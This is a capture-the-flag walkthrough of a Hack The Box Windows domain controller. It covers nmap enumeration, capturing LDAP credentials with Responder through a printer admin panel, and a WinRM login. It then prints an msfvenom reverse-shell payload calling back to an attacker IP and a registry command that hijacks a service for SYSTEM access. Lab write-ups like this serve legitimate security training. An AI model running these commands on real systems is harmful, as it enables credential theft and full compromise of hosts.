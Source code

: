 First enumeration with nmap 

```shell
# Nmap 7.94SVN scan initiated Wed Jan 31 08:59:10 2024 as: nmap -p- --min-rate 1000 -oN fulltcp.nmap -v -Pn 10.129.95.241
Nmap scan report for 10.129.95.241
Host is up (0.14s latency).
Not shown: 65506 closed tcp ports (conn-refused)
PORT      STATE    SERVICE
53/tcp    open     domain
80/tcp    open     http
88/tcp    open     kerberos-sec
135/tcp   open     msrpc
139/tcp   open     netbios-ssn
389/tcp   open     ldap
445/tcp   open     microsoft-ds
464/tcp   open     kpasswd5
593/tcp   open     http-rpc-epmap
636/tcp   open     ldapssl
3268/tcp  open     globalcatLDAP
3269/tcp  open     globalcatLDAPssl
3949/tcp  filtered drip
5985/tcp  open     wsman
9389/tcp  open     adws
47001/tcp open     winrm
49664/tcp open     unknown
49665/tcp open     unknown
49666/tcp open     unknown
49667/tcp open     unknown
49671/tcp open     unknown
49676/tcp open     unknown
49677/tcp open     unknown
49678/tcp open     unknown
49681/tcp open     unknown
49738/tcp open     unknown
61168/tcp filtered unknown

Read data files from: /usr/bin/../share/nmap
# Nmap done at Wed Jan 31 09:00:30 2024 -- 1 IP address (1 host up) scanned in 80.32 seconds
```
first run nmap full port scan to know what ports are open, then  let's run default nmap scripts scan. 

```shell
# Nmap 7.94SVN scan initiated Wed Jan 31 09:09:30 2024 as: nmap -sC -sV -T4 -oN service.nmap -p 53,80,88,135,139,389,445,593,636,3268,3269,3949,5985,9389,47001 -Pn 10.129.95.241
Nmap scan report for 10.129.95.241
Host is up (0.17s latency).

PORT      STATE  SERVICE       VERSION
53/tcp    open   domain        Simple DNS Plus
80/tcp    open   http          Microsoft IIS httpd 10.0
|_http-title: HTB Printer Admin Panel
|_http-server-header: Microsoft-IIS/10.0
| http-methods: 
|_  Potentially risky methods: TRACE
88/tcp    open   kerberos-sec  Microsoft Windows Kerberos (server time: 2024-01-31 08:31:15Z)
135/tcp   open   msrpc         Microsoft Windows RPC
139/tcp   open   netbios-ssn   Microsoft Windows netbios-ssn
389/tcp   open   ldap          Microsoft Windows Active Directory LDAP (Domain: return.local0., Site: Default-First-Site-Name)
445/tcp   open   microsoft-ds?
593/tcp   open   ncacn_http    Microsoft Windows RPC over HTTP 1.0
636/tcp   open   tcpwrapped
3268/tcp  open   ldap          Microsoft Windows Active Directory LDAP (Domain: return.local0., Site: Default-First-Site-Name)
3269/tcp  open   tcpwrapped
3949/tcp  closed drip
5985/tcp  open   http          Microsoft HTTPAPI httpd 2.0 (SSDP/UPnP)
|_http-server-header: Microsoft-HTTPAPI/2.0
|_http-title: Not Found
9389/tcp  open   mc-nmf        .NET Message Framing
47001/tcp open   http          Microsoft HTTPAPI httpd 2.0 (SSDP/UPnP)
|_http-server-header: Microsoft-HTTPAPI/2.0
|_http-title: Not Found
Service Info: Host: PRINTER; OS: Windows; CPE: cpe:/o:microsoft:windows

Host script results:
| smb2-security-mode: 
|   3:1:1: 
|_    Message signing enabled and required
| smb2-time: 
|   date: 2024-01-31T08:31:25
|_  start_date: N/A
|_clock-skew: 21m36s

Service detection performed. Please report any incorrect results at https://nmap.org/submit/ .
# Nmap done at Wed Jan 31 09:10:03 2024 -- 1 IP address (1 host up) scanned in 33.25 seconds
```
now we know what services aare running on those ports. 

## Enumerating port 80 

![image](https://github.com/n16hth4wk07/n16hth4wk07.github.io/assets/87468669/de2800c5-fe2d-46a5-847d-7f25e32e1587)

checking the IP addr on a browser, we get a printer admin page. 

![image](https://github.com/n16hth4wk07/n16hth4wk07.github.io/assets/87468669/0fd2c226-23c1-405a-b500-69ff7aa61f0c)

navigating to the settings page, we got to see some ldap info. let's try fire responder and replace the domain name with our tun0 IP addr. 

![image](https://github.com/n16hth4wk07/n16hth4wk07.github.io/assets/87468669/1a279d88-8e9b-4a38-a70d-694e6e4e4716)

get tun0 ip 

![image](https://github.com/n16hth4wk07/n16hth4wk07.github.io/assets/87468669/ab0e7e56-0625-4353-9fda-1754d88f150f)

fire responder 

```shell
sudo responder -I tun0
```

![image](https://github.com/n16hth4wk07/n16hth4wk07.github.io/assets/87468669/887088a2-3feb-4365-87e5-4d85f86d6e91)

replace the domain name with the tun0 IP addr and click update

![image](https://github.com/n16hth4wk07/n16hth4wk07.github.io/assets/87468669/133c2b3f-85a8-49f4-ae5f-4b4990709b45)

boom we got the clear text password

![image](https://github.com/n16hth4wk07/n16hth4wk07.github.io/assets/87468669/f5f59216-6971-4442-a23b-2ad495e27116)

using netexec to check what service we have access to, we can see we can login to winrm.

## Initial Foothold (Winrm)

![image](https://github.com/n16hth4wk07/n16hth4wk07.github.io/assets/87468669/711d9207-ed4f-42be-ba63-49b3654e560b)

we login winrm using the creds


## Privilege Escalation 

![image](https://github.com/n16hth4wk07/n16hth4wk07.github.io/assets/87468669/fbe94d1e-b9b6-4ed3-aedd-4a7d50b74167)

running winpeas.exe, we can see we can modify some service registery 

![image](https://github.com/n16hth4wk07/n16hth4wk07.github.io/assets/87468669/04c2a2aa-b190-496e-8d9d-75c6ab97b779)

running sc qc to query info about the `Vss` service, we can see it is run by localsystem, let's try to abuse ![Abuse](https://book.hacktricks.xyz/windows-hardening/windows-local-privilege-escalation#services-registry-modify-permissions)

```shell
┌──(n16hth4wk👽n16hth4wk-sec)-[~/Documents/HTB/Return]
└─$ msfvenom -p windows/x64/shell_reverse_tcp LHOST=10.10.14.34 LPORT=443 -f exe -o reverse.exe
[-] No platform was selected, choosing Msf::Module::Platform::Windows from the payload
[-] No arch selected, selecting arch: x64 from the payload
No encoder specified, outputting raw payload
Payload size: 460 bytes
Final size of exe file: 7168 bytes
Saved as: reverse.exe
```
first generate an msfvenom reverse shell payload. and send to the target.

![image](https://github.com/n16hth4wk07/n16hth4wk07.github.io/assets/87468669/d9d38dae-0a68-4cbd-8f93-ae20d835b33c)

```
reg add HKLM\system\currentcontrolset\services\VSS /v ImagePath /t REG_EXPAND_SZ /d C:\Users\svc-printer\Documents\reverse.exe /f
sc start vss
```

use the abuse function and restart the service, boom we got shell as NT Authority 

![image](https://github.com/n16hth4wk07/n16hth4wk07.github.io/assets/87468669/c92f7c27-77cf-4ce9-9956-091f06025cf1)

And we are through
